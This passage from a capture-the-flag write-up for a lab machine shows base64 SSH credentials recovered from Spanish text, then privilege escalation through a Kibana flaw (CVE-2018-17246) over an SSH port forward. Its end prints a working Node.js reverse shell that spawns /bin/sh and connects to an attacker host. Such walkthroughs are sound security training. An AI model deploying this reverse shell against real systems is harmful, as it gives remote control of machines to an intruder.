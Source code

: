 Now, I have the result of quotes. And it's easy to read. I place this file in Github. When I read this file by Chrome, Chrome can help me translate this article. So, it's easier to find special things in the article. I have found two interesting strings in the article.

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
```

```
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

If you translate the two stings into English respectively.

```
I have to save the password for the machine: dXNlcjogc2VjdXJpdHkg
```

```
This key cannot be lost, I keep it here: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The end of the strings is encoded by base64. When decoded, we can find the username and password. Then you can ssh by the username and password. 

![erZrTA.png](https://s2.ax1x.com/2019/08/03/erZrTA.png)

To be honest, I don't like the user of the box. But it does works as the keyword: you have to find a needle in haystack.

## PrivEsc

If you look around the box, you will find the box is installed with ELK. You can find kibana and logstash in the box. If you google `kibana exploit`. You will find [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246) in Github. It has detailed illustrates the ways to exploit.

However, there is a problem that the kibana service is only running in local. So you cannot access kibana service externally. There is a way to utilize ssh to redirect the network stream.

```
ssh 5601:localhost:5601 security@10.10.10.115
```

Then, we can access to the kibana service in 10.10.10.115 by access to `localhost:5601`. Place the `server.js` in tmp directory of the target machine.

```
// server.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "10.10.16.61", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```
